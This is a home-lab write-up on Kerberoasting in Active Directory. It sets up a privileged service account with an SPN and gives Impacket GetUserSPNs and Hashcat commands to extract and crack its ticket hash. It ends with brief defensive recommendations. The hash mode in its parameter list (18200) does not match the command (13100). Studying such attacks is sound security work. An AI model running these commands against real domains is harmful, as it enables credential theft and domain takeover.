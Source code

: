 # Kerberoasting

## Configuring



1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open PowerShell as administrator and execute the following commands to create a user with the name `sa_admin` and set a SPN for it:

```
net user sa_admin Welcome123456! /add
setspn -A MSSQLsvc/DC03:1433 sa_admin
```

3\. Execute the following command to make the user `Enterprise Admin` and `Domain Admin`:

```
Add-ADGroupMember -Identity "Enterprise Admins" -Members sa_admin
Add-ADGroupMember -Identity "Domain Admins" -Members sa_admin
```

## Attacking

### How it works

> Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service.
>
> Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plaintext credentials
>
> Source: [https://attack.mitre.org/techniques/T1558/003/](https://attack.mitre.org/techniques/T1558/003/)

### Tools

* [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)

### Executing the attack

1. Use the discovered credentials `john` and password `Welcome2022!` with [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket to Kerberoast all roastable users.

```
python3 /opt/impacket/examples/GetUserSPNs.py 'amsterdam.bank.local/john:Welcome2022!' -dc-ip 10.0.0.2 -target-domain bank.local -outputfile kerberoast.txt
cat kerberoast.txt
```

![](<../../.gitbook/assets/image (14).png>)

2\. We retrieved one hash. Lets crack it with Hashcat. The parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `kerberoasting.txt`
* Passwords list: `passwords.txt`
* Rule list: `-r rules.rule`

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule
```

![](<../../.gitbook/assets/image (34).png>)

We successfully cracked the password of the user `sa_admin`, the password is `Welcome123456!`

## Defending

### Recommendations

* Use [Group Managed Service Accounts or Managed Service Accounts.](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)
* Limit the privileges of Service Accounts.
* Use strong passwords (at least 32 characters) on service accounts.

### Detection



## References

{% embed url="https://attack.mitre.org/techniques/T1558/003/" %}

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}
